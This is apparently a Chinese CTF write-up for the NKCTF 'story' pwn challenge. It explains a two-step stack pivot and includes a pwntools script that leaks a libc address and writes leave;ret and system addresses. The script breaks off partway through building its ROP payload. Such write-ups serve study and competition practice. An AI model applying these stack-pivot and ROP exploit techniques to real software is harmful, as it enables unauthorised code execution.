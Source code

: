 ```yaml
---
title: NKCTF22
date: 2023-04-13 16:15:00 +0800
categories: [CTF, Exercise]
tags: [NKCTF]     # TAG names should always be lowercase
---
```


读研之后第一次组队打比赛，稍微记录下

# story

栈溢出太少了，栈迁移到可写的地方在附近再溢出一下继续栈迁移腾个地方

为什么不一次迁移到位呢，因为没有现成的能作为ret地址的单元，得先迁移一次写个地址，再往上迁移更多

可控制内存够了之后直接写binsh字符串->pop rdi;ret->binsh字符串地址->system地址

[story](/assets/binary/2023-04-13-NKCTF22/story.zip)

```python
from pwn import *

libc = ELF('./libc.so.6')
elf = ELF('./pwn')


context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

def solve(handle):
    binsh_addr = 0x4050a8
    handle.recvuntil("> \n")
    handle.sendline('4')
    handle.recvuntil("can see this. ")
    puts_addr = int(handle.recvline(), 16)
    print(hex(puts_addr))
    libc.address = puts_addr - libc.symbols['puts']
    system_addr = 0xe3b04 + libc.address
    leave_ret = 0x40139e

    # 1
    handle.recvuntil("> ")
    handle.sendline('1')
    handle.recvuntil("what's your comment?")
    handle.send(p64(leave_ret)) # go to main

    # 0
    handle.recvuntil("> ")
    handle.sendline('2')
    handle.recvuntil("what's your corment?")
    handle.send(p64(elf.symbols['heart']))

    # 2
    handle.recvuntil("> ")
    handle.sendline('3')
    handle.recvuntil("what's your corMenT?")
    handle.send(p64(libc.symbols['system']))

    
    pop_rdi_ret = 0x401573
    payload = b'a'*0xa + p64(0x4050a0-0x8) + p64(leave_ret) + p64(elf.symbols['heart']) # pivot stack to first place, make room for next pivot
```